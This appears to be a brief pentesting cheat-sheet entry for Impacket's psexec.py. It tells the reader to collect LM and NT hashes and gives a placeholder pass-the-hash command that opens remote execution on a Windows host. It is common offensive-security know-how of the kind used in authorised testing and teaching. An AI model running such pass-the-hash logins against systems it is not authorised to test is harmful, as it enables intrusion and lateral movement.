 psexec.py
**************

HASHES
##########

Make sure to grab the LMHASH and the NTHASH

.. code-block:: console

        psexec.py "username":@IP -hashes LMHASH:NTHASH


